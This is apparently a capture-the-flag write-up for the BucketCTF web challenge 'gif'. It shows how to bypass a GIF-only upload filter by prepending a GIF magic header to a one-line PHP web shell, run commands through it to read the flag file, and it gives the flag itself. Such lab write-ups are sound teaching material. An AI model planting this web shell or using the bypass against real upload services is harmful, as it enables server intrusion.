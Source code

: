 ```yaml
---
author: "Asad Ullah"
title: "Gif  - BucketCTF"
description: 
summary: Write-up on web challenge gif tackling a file upload vulnerability.
date: 2023-04-10T05:04:14+05:00
Section: write-ups
categories:
- writeup
- web
- ctftime.org

tags:
- bucketctf
- web exploitation
- upload vulnerability
- php
- payload

draft: false

---
```


{{< 
ctf
name="gif" 
difficulty="Hard"  
points="272"
category="Web"
>}}

&nbsp;

&nbsp;





## Description

I made a **secure** php web app where I can upload all my gifs. Some people on the internet told me to run it in a docker container just to protect it from my personal files, but who cares.

## Approach

At first, I uplaoded a Gif fie which was uploaded successfully then I attempted to upload a basic PHP payload and got this error

![Untitled](/write-ups/ctftime/bucket/uploads.webp#center)

from the error we can see that the files are stored at `/uploads`.

As the server only permitted GIF files.I modified the payload by adding a GIF header, `GIF87a;`.

```php
GIF87a;
<?php
    system($_GET['cmd'])
?>
```

&nbsp;

![Untitled](/write-ups/ctftime/bucket/upload.webp#center)

&nbsp;

And it worked we got remote code execution. We can now execute commands on the machine

&nbsp;

![Untitled](/write-ups/ctftime/bucket/gif-id.webp#center)

&nbsp;

we can find the flag at: `/uploads/payload.php/?cmd=cat /flag.txt`

&nbsp;

![Untitled](/write-ups/ctftime/bucket/flag.webp#center)

&nbsp;

&nbsp;

---

**Flag: `bucket{1_h4t3_PHP}`**

---

&nbsp;

&nbsp;
